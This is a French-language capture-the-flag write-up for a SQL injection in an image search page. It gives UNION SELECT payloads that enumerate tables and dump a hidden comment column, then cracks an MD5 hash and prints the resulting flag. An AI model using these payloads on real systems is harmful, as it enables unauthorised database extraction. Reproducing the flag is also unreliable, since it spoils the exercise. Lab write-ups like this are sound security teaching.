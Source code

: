 # SQL Injection - Image Search Data Extraction

## Description
Cette vulnérabilité exploite une injection SQL sur une page de recherche d'images.

## Exploitation

### Étape 1: Reconnaissance préalable
En utilisant la requête SQL découverte précédemment sur la page member, nous avons identifié la structure de la base de données :

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns;
```

Cette analyse révèle l'existence de la table `list_images` avec les colonnes suivantes :
- `id`
- `url`
- `title`
- `comment`

### Étape 2: Analyse du comportement de l'application
La page de recherche d'images permet de rechercher une image par ID et retourne :
- **ID** : L'identifiant saisi
- **Title** : Le titre de l'image
- **URL** : L'adresse de l'image

**Information manquante** : Le champ `comment` n'est pas affiché dans l'interface utilisateur normale.

### Étape 4: Extraction des commentaires cachés

Par déduction logique, nous déterminons que nous sommes déjà connectés à la base de données contenant la table `list_images`, car la recherche par ID fonctionne directement.

Nous utilisons une injection SQL pour révéler tous les commentaires des images :

```sql
1 UNION SELECT id, comment FROM list_images;
```

Cette requête nous permet d'associer chaque ID d'image à son commentaire caché.

### Étape 5: Découverte du message crucial de déchiffrement
Parmi les résultats, la dernière image révèle un commentaire particulièrement intéressant :

```text
ID: [dernière_image]
Comment: "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
```
Le commentaire nous donne des instructions claires et un hash MD5 à déchiffrer :

1. **Hash MD5 à déchiffrer** : `1928e8083cf461a51303633093573c46`
2. **Instructions** : MD5 decode → lowercase → SHA256

**Processus de déchiffrement :**

1. **Déchiffrement MD5** :
   ```
   1928e8083cf461a51303633093573c46 → "albatroz"
   ```

2. **Vérification (déjà en minuscules)** :
   ```
   "albatroz" (déjà en lowercase)
   ```

3. **Hachage SHA256** :
   ```bash
   echo -n "albatroz" | sha256sum
   # Résultat: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
   ```

### Solutions immédiates :
1. **Validation stricte** : Valider tous les paramètres d'entrée
2. **Contrôle d'accès** : Ne pas stocker d'informations sensibles dans la base de données
